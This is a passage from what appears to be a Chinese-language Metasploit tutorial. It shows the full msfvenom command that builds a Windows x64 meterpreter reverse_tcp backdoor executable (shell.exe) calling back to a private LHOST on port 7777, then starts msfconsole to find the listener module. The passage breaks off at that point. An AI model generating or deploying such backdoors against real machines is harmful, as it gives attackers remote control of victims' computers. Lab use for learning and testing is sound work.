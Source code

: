 ![image-20230503182349389](assets/image-20230503182349389.png)

 输入 `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=7777 -f exe > /root/shell.exe` 命令，生成 windows x64 的反向连接后门。

![image-20230503182532022](assets/image-20230503182532022.png)

可以看到/root 目录下生成了 shell.exe 的后门文件.

 输入 `msfconsole` 打开 msf 终端。使用 msf 的监听模块，利用生成的后门文件获取 shell.

输入 search handler 命令，查找 msf 的监听模块
